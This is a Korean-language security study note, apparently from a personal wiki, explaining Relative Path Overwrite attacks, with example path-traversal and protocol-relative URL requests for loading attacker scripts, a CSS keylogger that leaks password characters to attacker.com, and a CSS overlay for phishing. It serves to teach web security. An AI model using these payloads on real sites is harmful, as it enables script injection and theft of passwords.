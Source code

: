 
# 출처
https://www.hahwul.com

# 개념
Relative Path Overwrite
relative URL, 즉 상대 경로 기반의 URL을 덮어써서 의도하지 않은 동작을 수행하는 공격 방법
Relative Path Confusion이라고도 불림

[[RFI]]와 의 차이점은 RFI는 주로 외부에서 파일을 가져와 실행시키려는 것이고, 
RPO는 원격서버에서 파일 경로 또는 코드를 가져와서 포함시키려는 것
혼용되는 경우가 많다고 함

	Path	Description	Example
	Absolute URL	Host가 포함된 URL	<script src=”https://www.hahwul.com/file.js”>
	Relative URL	Host가 포함되지 않은 URL	<src=”/file.js”>

link, script 등 resource를 읽어오는 과정에서 Host가 포함되지 않은 URL을 Relative URL이라고 하고, 
이를 Overwrite할 수 있는 경우에 resource의 주소 등을 조작하여 공격자가 원하는 액션으로 유도할 수 있게 됨(사실상 XSS임)

Path traversal과 동일하게 ../ 를 이용해 상위 경로의 다른 파일을 로드하거나, 
Protocol-relative URL 을 이용하여 Host를 공격자가 원하는 도메인으로 변경하여 공격을 수행할 수 있음

Path traversal

	[ Req ]
	GET /page?sink=../../../upload/my_script.js

	[ Res ]
	...
	<script src="asset/js/vendor/../../../upload/my_script.js"></script>
	...

Ptorocol-relative URL

	[ Req ]
	GET /page?test=//www.hahwul.com/xss.js

	[ Res ]
	...
	<script src="//www.hahwul.com/xss.js"></script>
	...

일반적인 시나리오로는 XSS와의 연계를 하여 공격하는 것
공격자의 remote 서버, 또는 해당 도메인에 업로드가 가능한 경로를 찾아 
xss 코드가 포함된 js 파일을 업로드하고, Relative Path Overwrite를 통해 이를 트리거


# Sequential Import Chaining
CSS를 컨트롤할 수 있는 경우 이를 이용하여 Keylogger와 같은 페이로드를 구성할 수 있음

```css
input[name=password][value^=a]{
	background: url('https://attacker.com/a');
}
input[name=password][value^=b]{
	background: url('https://attacker.com/b');
}
/* ... */
input[name=password][value^=9]{
	background: url('https://attacker.com/9');   
}
```

다음과 같은 css를 로드하게 만들면, 해당 input box에서 버튼을 누를때 마다,
원격 서버에서 해당 키를 누르게 된 것을 알게 된다.


# Phishing
CSS Injection과 동일하게 position:fix 등으로 레이어를 분리하고, 
악의적인 컨텐츠를 담아 피싱등을 유도할 수 있음

```css
.attack {
	position: fixed;
	top: 0;
	left: 0;
	width: 100%;
	height: 100%;
	z-index: 999999;
}
```

